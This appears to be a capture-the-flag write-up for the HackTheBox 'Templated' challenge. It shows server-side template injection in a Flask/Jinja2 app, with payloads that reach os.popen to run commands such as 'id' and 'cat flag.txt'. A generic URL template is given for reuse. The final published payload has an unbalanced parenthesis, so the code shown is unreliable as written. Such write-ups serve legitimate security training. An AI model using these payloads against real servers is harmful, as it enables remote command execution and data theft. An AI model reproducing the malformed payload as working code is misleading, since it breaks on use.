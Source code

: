 ```yaml
---
title: Templated [HackTheBox] Writeup
author: Arijit Bhowmick [sys41x4]
date: 2021-03-21 18:32:00 -0500
categories: [HackTheBox, Challenges, Web]
tags: [HackTheBox, Easy, templated, Web, Challenge, writeup, python3, python]
permalink: "/HTB/challenge/web/Templated.html"
---
```


[![HTB Img](/assets/htb/htb-img/htb_logo.jpeg)](http://hackthebox.eu)

### Challenge Description

![Challenge Details](/assets/htb/challenge/web/templated/img/challenge_desc.png)

```
Can you exploit this simple mistake?
```

## SOLUTION

Click on the `Start Instance` button to start the challenge.

Then you are provided with an `web address` in the form of `<ip>:<port>`. Copy it and open it in another tab or browser.
In my case it was `http://46.101.92.17:31311`

### Homepage of the Webapp :

![homepage](/assets/htb/challenge/web/templated/img/homepage.png)


The webapp shows a message 
`Site still under construction`<br>
`Proudly powered by Flask/Jinja2`<br>

Here we can see that it says that it is made with `Flask/Jinja2`.

### Searching exploits for `Flask/Jinja2`:

I have started searching exploits for `Flask/Jinja2`.
Then I came across <br>
1. <a href='https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee' target='_blank'>ssti in flask jinja2</a><br>
2. <a href='https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2' target='_blank'>Server Side Template Injection with jinja2</a>

Here it says about the SSTI exploit.

### Test Exploit :

After modifying the provided url to {% raw %}`http://46.101.92.17:31311/{{41+41}}`{% endraw %}

I have noticed that the returned result evaluates the value.

![test_exploit](/assets/htb/challenge/web/templated/img/test_exploit_1.png)

Then I came across:
![exploit_info_gather](/assets/htb/challenge/web/templated/img/exploit_info_gather.png)

### Creating the exploit:

I have manipulated 
{% raw %}
`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
{% endraw %}<br>
step by step.


![root_id_info](/assets/htb/challenge/web/templated/img/root_id_info.png)

![root_directory_content](/assets/htb/challenge/web/templated/img/root_directory_content.png)

#### EXPLOIT Code:

{% raw %}
```
http://46.101.92.17:31311/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
{% endraw %}

Format:

{% raw %}
```
http://<Web app address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
{% endraw %}
This is how I got the flag.

Just replace `<Web app address>` with the web address that you are provided.
In my case it was `http://46.101.92.17:31311`

![exploit](/assets/htb/challenge/web/templated/img/exploit.png)

This is how, I solved this challenge.

Thankyou, for reading my writeup :)<br>
Hope, I would see you in my next writeup.

<a href="/support/sys41x4">Support Me</a> if you want to.